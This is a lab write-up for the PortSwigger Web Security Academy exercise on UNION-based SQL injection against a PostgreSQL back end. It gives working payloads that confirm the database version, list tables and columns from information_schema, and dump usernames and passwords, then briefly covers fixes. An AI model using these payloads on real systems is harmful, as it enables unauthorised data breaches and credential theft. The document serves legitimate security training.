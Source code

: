 # SQL injection attack, listing the database contents on non-Oracle databases

![Lab banner – PortSwigger Practitioner level](1.png)

---

## Executive Summary

In the PortSwigger Web Security Academy lab *“SQL injection attack: listing the database contents on non-Oracle databases”*, we demonstrated how an attacker can enumerate **all database tables, their columns, and sensitive user credentials** using a series of `UNION SELECT` queries against `information_schema`.
Because the application dynamically concatenates user-supplied text into its SQL queries without sanitisation, we pivoted from a simple injection test to full schema enumeration and credential harvesting.

---

## Why This Matters to You

* **Full data breach:** Once table names and column names are known, dumping sensitive data (usernames, passwords, payment details) becomes trivial.
* **Persistence risk:** Knowledge of schema details makes backdoor creation easier for attackers.
* **Compliance violations:** Any unauthorised access to stored credentials can trigger GDPR, CCPA, or similar regulatory reporting requirements.

---

## Step-by-Step Walk-Through

| # | What we did (payload URL-encoded where needed)                                                                                                                   | Intended SQL generated by the app                                                                                                              | What actually happens & why                                          |
| - | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------- |
| 1 | **Confirmed vulnerability** and identified DB type as **PostgreSQL** with:<br>`' UNION SELECT NULL,version()--`                                                  | `SELECT * FROM someTable WHERE category='X' UNION SELECT NULL, version()--'`                                                                   | Version string confirms PostgreSQL back-end.                         |
| 2 | **Enumerated tables** with:<br>`' UNION SELECT table_name,table_schema FROM information_schema.tables--`                                                         | `SELECT * FROM someTable WHERE category='X' UNION SELECT table_name, table_schema FROM information_schema.tables--'`                           | Listed all table names/schemas, including one called `users_xjwuk`. |
| 3 | **Enumerated columns** for the `users_xjwuk` table with:<br>`' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--` | `SELECT * FROM someTable WHERE category='X' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--'` | Revealed columns `username_spivdg` and `password_ebvdu`.            |
| 4 | **Dumped credentials** with:<br>`' UNION SELECT username_spivdg,password_ebvdu FROM users_xjwuk--`                                                             | `SELECT * FROM someTable WHERE category='X' UNION SELECT username_spivdg, password_ebvdu FROM users_xjwuk--'`                                | Retrieved all stored usernames and passwords.                        |
| 5 | **Logged in** using harvested credentials.                                                                                                                       | —                                                                                                                                              | Administrative access granted, lab solved.                           |

---

## Observable Output

| Test / Payload                                                                                      | Visible result                        | What it proved                              |
| --------------------------------------------------------------------------------------------------- | ------------------------------------- | ------------------------------------------- |
| `' UNION SELECT NULL,version()--`                                                                   | `PostgreSQL 14.x ...`                 | Backend database type & version confirmed.  |
| `' UNION SELECT table_name,table_schema FROM information_schema.tables--`                           | Long list of table names              | Schema enumeration works.                   |
| `' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_xjwuk'--` | `username_spivdg` / `password_ebvdu` | Sensitive column names identified.          |
| `' UNION SELECT username_spivdg,password_ebvdu FROM users_xjwuk--`                                | List of usernames and passwords       | **Complete credential disclosure** achieved |

---


## Conclusion

By leveraging basic UNION-based SQL injection against `information_schema`, we escalated from product-list manipulation to a **full database breach**, including credential theft. The fix requires moving away from string-concatenated SQL, enforcing least-privilege DB roles, and hardening password storage practices.

